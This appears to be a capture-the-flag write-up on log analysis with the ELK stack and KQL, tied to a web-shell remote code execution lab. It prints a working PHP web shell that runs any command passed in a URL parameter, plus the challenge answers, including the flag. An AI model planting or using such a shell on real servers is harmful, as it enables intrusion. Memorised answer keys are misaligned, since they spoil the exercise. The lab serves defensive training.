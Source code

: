 # Day 3[Log Analysis] : Even if I wanted to go, their vulnerabilities wouldn't allow it.

## Learning objectives:
- Learn about Log analysis and tools like ELK stack.
- Learn about KQL and how it can be used to query logs.
- Learn about RCE

## Abbreviations:
- ELK Stack: Elasticsearch, Logstash, Kibana
- KQL: Kusto Query Language
- RCE: Remote Code Execution

## Learning resources:
- [ELK Stack](https://www.elastic.co/what-is/elk-stack)
- [KQL](https://learn.microsoft.com/en-us/azure/data-explorer/kusto/query/)
- [RCE](https://en.wikipedia.org/wiki/Remote_code_execution)

## Learning materials:
- [Log Analysis](https://github.com/Cyber-Glitch/Wareville/blob/main/Day03_LogAnalysis.md)

> Remote Code Execution:
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

## QUESTIONS AND HINTS : 
1. **BLUE:** Where was the web shell uploaded to? (Answer format: /directory/directory/directory/filename.php)
   - Ans : `/media/images/rooms/shell.php`
2. **BLUE:** What IP address accessed the web shell?
   - Ans : `10.11.83.34`
3. **RED:** What is the contents of the flag.txt?
   - ![ls](/Screenshots/D3Q3a.png)
   - ![flag](/Screenshots/D3Q3.png)
   - Ans : `THM{Gl1tch_Was_H3r3}`